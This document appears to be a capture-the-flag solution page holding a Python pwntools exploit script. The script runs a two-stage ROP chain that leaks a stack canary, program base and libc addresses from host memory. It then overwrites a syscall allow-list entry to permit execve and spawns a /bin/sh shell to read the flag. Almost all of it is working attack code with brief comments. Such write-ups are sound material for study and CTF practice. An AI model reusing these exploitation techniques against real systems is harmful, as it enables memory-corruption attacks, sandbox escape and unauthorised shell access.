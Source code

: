 ```python
pop_rsi = 0x00000000040013ad # pop rsi; pop r15; ret;
pop_rsp = 0x00000000040025f9 # pop rsp; ret;
syscall = 0x00000000040024ab # syscall; ret;

# first ROP, will be executed in guest
payload = 'A'*0x100+p64(0xdeadbeef)
payload += p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(0x0000000004004000)+p64(0)+p64(pop_rdx)+p64(0x600)+p64(syscall)	# syscall read, will leak host memory & copy it to guest memory
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004079)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak canary
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004088)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak prog address
payload += p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0x0000000004004308)+p64(0)+p64(pop_rdx)+p64(8)+p64(syscall)	# syscall write to leak a libc address
payload += p64(pop_rdi)+p64(0x0000000004004000)+p64(0x40003da)			# call gets again to read next ROP on .bss
payload += p64(pop_rsp)+p64(0x0000000004004000)					# pivot on next ROP
sla('name: \n', payload)

p.recvuntil('\n',drop=True)

# cut syscall read, to make the program leak host stack memory, and copy it to guest memory
p.send('B'*0x78)
# receive out various leaks for write syscalls
# canary
p.recvuntil('buf=\'', drop=True)
canary = u64(b'\x00'+p.recv(7))
logleak('canary', canary)
stack = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00'))
logleak('stack', stack)
# calculate progbase
p.recvuntil('buf=\'', drop=True)
exe.address = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00')) - 0xa57504
logleak('prog base', exe.address)
# libc address
p.recvuntil('buf=\'', drop=True)
libc.address = u64(p.recvuntil('\'', drop=True).ljust(8,b'\x00'))-0x9a154 # offset from 2.31-0ubuntu9.8_amd64
logbase()

# second ROP (on guest)
payload2 = (p64(pop_rax)+p64(16)+p64(syscall))*46		# advance syscall_cnt number (up to 59)
payload2 += p64(pop_rdi)+p64(0x775670)+p64(pop_rax)+p64(1024)+p64(syscall)	# overwrite exit_syscalls[0] with 59 to authorize execve
# the '/bin/sh' string address is from host memory, as the execve will be executed by the host
payload2 += p64(pop_rax)+p64(59)+p64(pop_rdi)+p64(next(libc.search('/bin/sh')))+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)*2+p64(syscall)		# execve(/bin/sh,0,0)
sl(payload2)

#enjoy shell
sleep(1)
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning ..blinking little chars on terminal...*